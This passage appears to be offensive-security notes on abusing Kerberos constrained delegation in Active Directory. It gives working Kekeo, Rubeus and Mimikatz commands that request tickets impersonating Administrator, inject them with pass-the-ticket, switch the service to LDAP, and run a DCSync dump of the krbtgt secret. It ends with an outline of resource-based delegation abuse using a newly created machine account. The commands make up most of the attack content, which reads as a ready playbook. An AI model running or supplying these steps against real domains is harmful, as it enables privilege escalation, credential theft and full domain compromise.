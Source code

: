 **2. Using plaintext password or NTLM/AES hash of the service account to request a TGT using asktgt from Kekeo (Step 2 & 3 in diagram)**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>.\kekeo.exe
</strong><strong>kekeo# tgt::ask /user:serviceusername /domain:dom.local /rc4:rc4hash
</strong></code></pre>

Kekeo can read/write tickets without injecting into lsass and without having admin privileges.

**3. Once we have t TGT,  using s4u from keko, we can request a TGS (step 4 and 5 in diagram)**

{% code overflow="wrap" %}
```
kekeo# s4u /tgt:filename.kirbi /user:administrator@dom.local /service:full_service_name_eg_cifs/dc-fqdn-name

```
{% endcode %}

**4. Inject the TGS ticket in the current session**&#x20;

```powershell
Invoke-Mimikatz -command '"kerberos::ptt filename_to_tgs_from_kekeo.kirbi"'
ls \\host.dom.local\c$
```

**❗Problem 2: Machine Account$ is used - If delegation is for non intrusive service but done with e.g Administrator, everything else with that user can be abused.**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>tgt::ask /user:usernae$ /domain:dom.local /rc4:rc4here
</strong>
tgs::s4u /tgt:filename.kirbi /user:Administrator@dom.local /service:time/dom.local|ldap/dom.local
=> We also request LDAP Access as Administrator, which runs under the same service account as the regular time service

Same with rubeus in one command:
Rubeus.exe s4u /user:machine-account-with-CD$ /aes256:machine-account-hash /impersonateuser:Administrator /msdsspn:time/dom.local(what is shown in  Get-DomainComputer -TrustedToAuth)  /altservice:ldap /ptt
</code></pre>

```
Invoke-Mimikatz -command '"kerberos::ptt filename.kirbi"'
Invoke-Mimikatz -command '"lsadump::dcsync /user:dom\krbtgt"'
```

### Kerberos Constrained Delegation - Kerberos Only

* It requires an additional forwardable ticket to invoke S4U2Proxy.
* We cannot use S4U2Self as the service doesn’t have TRUSTED\_TO\_AUTH\_FOR\_DELEGATION value configured.
* We can leverage RBCD to abuse Kerberos Only configuration.
  * Create a new Machine Account (Since ms-DS-MachineAccountQuota is set to 10 for all domain users, any domain user can create a new Machine Account and join the same in the current domain.)
  * Configure RBCD on the machine configured with Constrained Delegation.
  * Obtain a TGS/Service Ticket for the machine configured with Constrained Delegation by leveraging the newly created Machine Account.
  * Request a new forwardable TGS/Service Ticket by leveraging the ticket created in previous step.
